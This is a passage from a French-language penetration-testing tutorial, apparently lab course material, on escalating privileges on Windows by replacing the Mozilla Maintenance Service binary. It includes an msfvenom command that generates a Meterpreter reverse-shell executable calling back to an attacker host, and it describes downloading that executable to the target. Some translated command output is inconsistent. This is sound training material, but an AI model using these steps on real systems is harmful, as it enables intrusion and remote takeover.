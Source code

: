 Nous pouvons également rechercher tout logiciel tiers pouvant être exploité, tel que le service de maintenance Mozilla. Ce service s'exécute dans le contexte de SYSTEM et peut être démarré par des utilisateurs non privilégiés. Le binaire (non protégé par le système) de ce service se trouve ci-dessous.

- `C:\Program Files (x86)\Service de maintenance Mozilla\maintenanceservice.exe`

#### Vérification des autorisations sur le binaire

`icacls` confirme que nous n'avons que des autorisations de lecture et d'exécution sur ce binaire en fonction de la ligne `BUILTIN\Users :(I)(RX)` dans la sortie de la commande.

Vérification des autorisations sur le binaire

```
C:\htb> icacls "c:\Program Files (x86)\Service de maintenance Mozilla\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                           INTÉGRÉ\Administrateurs :(I)(F)
                                                                           INTÉGRÉ\Utilisateurs :(I)(RX)
                                                                           AUTORITÉ DU PACKAGE D'APPLICATION\TOUS LES PACKAGES D'APPLICATION :(I)(RX)
                                                                           AUTORITÉ DU PACKAGE D'APPLICATION\TOUS LES PACKAGES D'APPLICATION RESTREINTS :(I)(RX)

Traitement réussi de 1 fichiers ; Échec du traitement de 0 fichiers

```

#### Génération d'un binaire malveillant

Générons un binaire `maintenanceservice.exe` malveillant qui peut être utilisé pour obtenir une connexion shell inversée Meterpreter à partir de notre cible.

Génération de binaires malveillants

```
dsgsec@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 645 octets
Taille finale du fichier exe : 7168 octets

```

#### Hébergement du binaire malveillant

Nous pouvons le télécharger sur la cible à l'aide de cURL après avoir démarré un serveur HTTP Python sur notre hôte d'attaque, comme dans la section `Contrôle de compte d'utilisateur` précédemment. Nous pouvons également utiliser wget de la cible.
